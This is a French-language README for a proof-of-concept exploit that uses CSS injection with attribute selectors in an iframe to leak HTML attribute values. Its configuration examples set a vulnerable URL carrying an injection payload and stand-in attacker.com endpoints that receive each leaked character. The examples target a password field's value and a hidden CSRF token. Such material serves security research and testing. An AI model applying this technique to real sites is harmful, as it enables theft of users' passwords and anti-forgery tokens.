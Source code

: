 # PoC - CSS Injection : Sélecteur d'attributs

__Read this in other languages:__ [English](README.md), [Français](README.fr.md)

## Description

PoC d'exploitation d'une injection CSS en utilisant les sélecteurs d'attributs afin de récupérer la valeur d'un attribut d'un élément HTML.

## Prérequis

- Le site vulnérable doit pouvoir être iframé, voir entêtes HTTP `X-Frame-Options` et `frame-ancestors`.
- Il existe certaines limites lorsque la valeur à récupérer commence par un chiffre. La valeur de sélection doit alors être entourée par de guillemets simples ou doubles et l'exploitation peut ne pas être possible dans le cas ou ces caractères sont filtrés par l'application.

## Configuration

Avant d'utiliser le PoC, configurer les valeurs suivantes :

```
/* ==== CONFIG ==== */
// URL complète de l'application vulnérable
const RURL = "http://vulnerable.com/targets/password.php?color=red;}";  

// URL de la machine de l'attaquant permettant de connaitre les caractères déjà identifiés
const LURL_KNOWNCHARS = "http://attacker.com/knownChars.php";

// URL de la machine de l'attaquant permettant d'indiquer un nouveau caractère identifié
const LURL_LEAKCHAR = "http://attacker.com/leak.php?char=";

// Nom de l'élément HTML ciblé
const HTML_ELEMENT_NAME = "input";

// Nom de l'attribut HTML ciblé
const HTML_ATTRIBUTE_NAME = "name";

// Valeur NAME de l'attribut HTML ciblé
const HTML_ATTRIBUTE_VALUE = "password";

// True si le champs ciblé est de type "hidden" (utilisation des combinateurs CSS ~*)
const isHiddenTypeElement = false;

// Lorsque les caractères "'" et """ sont filtrés par l'application il n'est pas possible de récupérer une valeur commençant par un chiffre
const isQuoteFiltered = true;
```

## Utilisation

### Récupération d'une valeur d'un champ de type password

```javascript
const RURL = "http://vulnerable.com/targets/password.php?color=red;}";  
const LURL_KNOWNCHARS = "http://attacker.com/knownChars.php";
const LURL_LEAKCHAR = "http://attacker.com/leak.php?char=";
const HTML_ELEMENT_NAME = "input";
const HTML_ATTRIBUTE_NAME = "name";
const HTML_ATTRIBUTE_VALUE = "password";
const isHiddenTypeElement = false;
const isQuoteFiltered = true;
```

### Récupération d'une valeur d'un champ de type hidden

```javascript
const RURL = "http://vulnerable.com/targets/hidden.php?color=red;}";  
const LURL_KNOWNCHARS = "http://attacker.com/knownChars.php";
const LURL_LEAKCHAR = "http://attacker.com/leak.php?char=";
const HTML_ELEMENT_NAME = "input";
const HTML_ATTRIBUTE_NAME = "name";
const HTML_ATTRIBUTE_VALUE = "csrf-token";
const isHiddenTypeElement = true;
const isQuoteFiltered = true;
```

## Démo

### Récupération d'une valeur d'un champ de type password

![](https://github.com/Sharpforce/PoC-CSS-injection/blob/master/attribute-selectors-iframe/demo/attribute-selectors-iframe-password.gif)

### Récupération d'une valeur d'un champ de type hidden

![](https://github.com/Sharpforce/PoC-CSS-injection/blob/master/attribute-selectors-iframe/demo/attribute-selectors-iframe-hidden.gif)